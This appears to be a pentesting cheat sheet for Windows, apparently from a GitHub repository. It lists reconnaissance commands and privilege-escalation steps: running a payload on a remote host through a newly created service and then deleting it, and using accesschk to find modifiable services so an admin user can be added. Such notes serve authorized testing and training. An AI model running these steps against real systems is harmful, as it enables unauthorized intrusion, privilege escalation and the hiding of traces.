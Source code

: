 
## Windows Network Information Gathering

* Basic network information
``` bat
net users
net user <username>
ipconfig /all
route print
arp -A
```

* Active connections
``` bat
:: all open ports
netstat -ano

:: mapped open ports to process; copy this from `/usr/share/windows-binaries/fport/Fport.exe` on Kali
.\Fport.exe
```

* Firewall information
``` bat
netsh firewall show state
netsh firewall show config
```

* Remote WMI querying
``` bat
wmic /node:"<node>" /user:<domain>\<username> computersystem list brief /format:list
```


## Windows Privilege Escalation Techniques / Common Exploits

* Executing a payload via a new service
``` bat
:: create the service
sc \\<ip> create <servicename> binPath="<pathtopayload>"

:: start the service; note that the service will be reported to timeout, but it will still execute our payload
sc \\<ip> start <servicename>

:: after migrating out of our relatively unstable created service, we should clean-up
del \\<ip>\<share>\<pathtopayload>
sc \\<ip> delete <servicename>
```

* Change the bin path of a service to add an admin user (such as the UPNP service) with the help of `accesschk.exe` ([officially available from Microsoft](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk) but use [this older version](https://xor.cat/2017/09/05/sysinternals-accesschk-accepteula/) with the `/accepteula` flag); also see Metasploit's `exploit/windows/local/service_permissions`
``` bat
:: find all services that a user can modify; look for SERVICE_ALL_ACCESS
:: note that either -accepteula or /accepteula may be the way to specify this IMPORTANT flag
accesschk.exe -uwcqv "<username>" * -accepteula
accesschk.exe -uwcqv "Authenticated Users" * -accepteula
accesschk.exe -uwcqv "Everyone" * -accepteula
accesschk.exe -uwcqv "Users" * -accepteula

:: probe the potentially vulnerable service(s) more closely, checking for dependency services (two separate methods shown below)
accesschk.exe -ucqv <servicename> -accepteula
sc qc <servicename>
```